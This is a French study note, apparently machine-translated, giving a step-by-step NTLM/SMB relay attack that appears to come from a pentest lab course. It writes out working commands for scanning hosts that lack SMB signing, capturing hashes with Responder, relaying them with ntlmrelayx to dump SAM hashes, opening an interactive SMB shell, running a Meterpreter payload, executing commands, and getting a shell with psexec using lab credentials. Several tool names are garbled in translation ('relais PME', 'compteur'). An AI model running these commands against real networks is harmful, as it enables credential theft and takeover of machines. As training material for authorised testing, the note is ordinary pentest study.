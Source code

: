  **Présentation du relais PME**
 - Au lieu de déchiffrer les hachages collectés avec Responder, nous pouvons relayer ces hachages vers des machines spécifiques et potentiellement y accéder.
 - Exigences
   - La signature SMB doit être désactivée sur la cible
   - Les informations d'identification de l'utilisateur relu doivent être celles de l'administrateur sur la machine
     - Récupérez le hachage NTLM d'une machine et relayez ce hachage NTLM vers une autre machine comme spécifié sur ntlmrelayx.  Par conséquent, au moins deux machines doivent être présentes pour effectuer le relais.
 - Étape 1
   - Découvrez les hôtes avec la signature SMB désactivée
     - `nmap --script=smb2-security-mode.nse -p445 192.168.57.0/24`
     - Si le résultat est La signature des messages activée mais pas obligatoire, nous pouvons également effectuer une attaque.
 - Étape 2
   - Ajoutez les IP avec la signature SMB désactivée sur le fichier Targets.txt.
 - Étape 3
   - Ouvrez le fichier de configuration du répondeur et désactivez SMB et HTTP.  `vim /usr/share/responder/Responder.conf` ou `vim /etc/responder/Responder.conf`
   - Nous écouterons mais ne répondrons pas
 - Étape 4
   - Exécuter le répondeur : `python Responder.py -I eth0 -rdwv`
 - Étape 5
   - Exécutez [NTLMrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py).  `python ntlmrelayx.py -tf cibles.txt -smb2support`
   - Il prend le relais et le transmet au fichier cible que vous spécifiez.  -smb2support : intégrez également n'importe quoi avec SMB.
   - Attendez qu'un événement se déclenche
 - Étape 6 : Gagner
   - Il relaie les informations d'identification qu'il capture vers cette autre machine.  Il listera les fichiers SAM (identiques au fichier /etc/shadow sous Linux)
   - Nous pouvons déchiffrer ces hachages pour obtenir les mots de passe ou nous pouvons également transmettre ces hachages pour accéder à d'autres machines.
 - Etape 7 : Post Exploitation
   - Exécutez le répondeur comme avant
   - Exécutez NTLMRelayx en mode interactif
     - `python ntlmrelayx.py -tf targets.txt -smb2support -i` 
   - Configurer un auditeur
     - `nc 127.0.0.1 <portnumber>` Le numéro de port peut être obtenu à partir du résultat de ntlmrelayx
     - `help` : Ici nous avons gagné le shell SMB
     - Liste des partages : `shares`
     - `Use C$`
     - `ls`
     - Nous pouvons avoir un accès complet sur l'ordinateur comme nous pouvons ajouter un fichier, lire un fichier
   - Nous pouvons également configurer un écouteur de compteur
     - `python ntlmrelayx.py -tf cibles.txt -smb2support -e test.exe` où test.exe est une charge utile de compteur (exécutable)
   - Exécute certaines commandes spécifiques
     - `python ntlmrelayx.py -tf cibles.txt -smb2support -c "whoami"` 
   - Obtenir un shell avec [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py)
     - `python3 psexec.py marvel.local/fcastle:Password1@<ip>` <br><br>
